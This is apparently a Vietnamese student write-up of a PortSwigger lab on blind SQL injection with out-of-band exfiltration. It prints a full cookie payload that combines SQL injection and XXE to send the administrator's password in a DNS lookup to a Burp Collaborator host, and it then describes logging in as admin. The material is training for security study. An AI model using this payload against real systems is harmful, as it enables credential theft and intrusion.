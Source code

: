 ## Blind SQL injection with out-of-band data exfiltration

Tiếp tục sử dụng Burp Collaborator

Tham khảo [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) chúng ta sẽ lợi dụng EXTRACT VALUE trong SQL để sử dụng XXE attack để trigger đoạn query lookup DNS.

```markdown
**TrackingId=6tUkNaijRklEQOsv'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.gh1ioyaggfhbp6eospfcup66lxrnfc.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--**
```

Kết hợp nối chuỗi select password từ bảng users với user là admin

Kết quả request gửi tới collaborator sau khi trả về sau khi Pool sẽ có format **password.host.burpcollaborator.net**

![](/imgs/SQL-Injection/70.png?raw=true)

Login với tài khoản admin là solve

![](/imgs/SQL-Injection/71.png?raw=true)